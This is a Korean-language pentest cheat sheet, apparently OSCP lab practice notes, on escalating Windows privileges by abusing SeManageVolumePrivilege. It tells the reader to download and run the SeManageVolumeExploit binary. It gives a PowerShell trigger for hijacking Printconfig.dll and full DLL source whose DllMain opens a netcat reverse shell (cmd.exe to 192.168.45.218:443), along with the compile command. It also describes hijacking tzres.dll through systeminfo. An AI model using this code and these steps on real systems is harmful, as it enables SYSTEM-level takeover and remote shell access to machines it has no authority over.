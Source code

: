 
SeManageVolumePrivilege권한을 사용하면 드라이브 포맷, 새 파티션 생성, 드라이브 문자 할당 등의 작업을 포함하여 디스크 볼륨을 관리할 수 있다. 이 권한만으로는 완전한 Admin 권한을 부여하지는 않지만, 특정 도구나 기법을 활용한다면 권한을 상승시킬 수 있다.


### SeManageVolumeExploit
**SeManageVolumeExploit** 바이너리를 악용하면 **C:\Windows\System32** 의 쓰기 권한을 수정하여 쓰기 가능하게 만들어 **DLL Hijacking**을 통한 시스템 권한 탈취가 가능하다.

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----12ad7f6bad6f---------------------------------------
여기서 SeManageVolumeExploit.exe 다운해서, 실행한다.


### Printconfig.dll Exploit

`C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll` 파일을 Overwrite 한 뒤, powershell 에서 아래 명령어를 실행하면, dll 이 실행된다.

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")  
$object = [Activator]::CreateInstance($type)
```

dll 파일 작성 예시는 아래와 같다.

**abuse.cpp**
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
            i = system ("C:\\temp\\nc.exe -e cmd.exe 192.168.45.218 443");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

```

컴파일은 아래 커맨드로 수행한다.
```bash
x86_64-w64-mingw32-gcc abuse.cpp --shared -o Printconfig.dll
```

출처: https://banua.medium.com/proving-grounds-access-oscp-prep-2025-practice-7-557f902bf1a9


### tzres.dll
`C:\Windows\System32\wbem\tzres.dll (systeminfo, NetworkService)` 를 악용하는 방법도 있다.

위와 같이 `C:\Windows\System32\wbem\tzres.dll`를 Overwrite 이후 systeminfo 를 입력하면 dll 코드가 실행된다.

